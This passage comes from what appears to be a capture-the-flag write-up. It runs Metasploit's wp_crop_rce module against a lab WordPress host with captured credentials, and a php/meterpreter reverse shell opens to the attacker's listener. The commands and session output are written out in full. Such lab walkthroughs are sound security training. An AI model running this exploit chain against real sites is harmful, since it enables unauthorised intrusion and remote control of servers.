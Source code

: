 ```bash
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:p
                                         ort][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com
                                         /docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-de
                                         tection if provided)
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.80.131   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   WordPress

View the full module info with the info, or info -d command.
```

we set RHOSTS, RPORT, LHOST, LPORT

```bash
msf6 exploit(multi/http/wp_crop_rce) > set rhosts 10.10.61.237
rhosts => 10.10.61.237
msf6 exploit(multi/http/wp_crop_rce) > set lhosts tun0
lhosts => 10.8.110.7
msf6 exploit(multi/http/wp_crop_rce) > set username kwheel
username => kwheel
msf6 exploit(multi/http/wp_crop_rce) > set password cutiepie1
password => c*******1

msf6 exploit(multi/http/wp_crop_rce) > run

[*] Started reverse TCP handler on tun0:4444 
[*] Authenticating with WordPress using kwheel:c*******1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to blog.thm
[*] Meterpreter session 1 opened (tun0:4444 -> blog.thm:37408) at 2023-09-30 05:03:51 -0400
[*] Attempting to clean up files...
meterpreter > ls
Listing: /var/www/wordpress
===========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100640/rw-r-----  235    fil   2020-05-28 08:15:42 -0400  .htaccess
100640/rw-r-----  235    fil   2020-05-27 23:44:26 -0400  .htaccess_backup
100644/rw-r--r--  1111   fil   2023-09-30 05:07:23 -0400  bOLsoFaNEi.php
100644/rw-r--r--  1111   fil   2023-09-30 05:03:34 -0400  dsNXdrynvU.php
100640/rw-r-----  418    fil   2013-09-24 20:18:11 -0400  index.php
```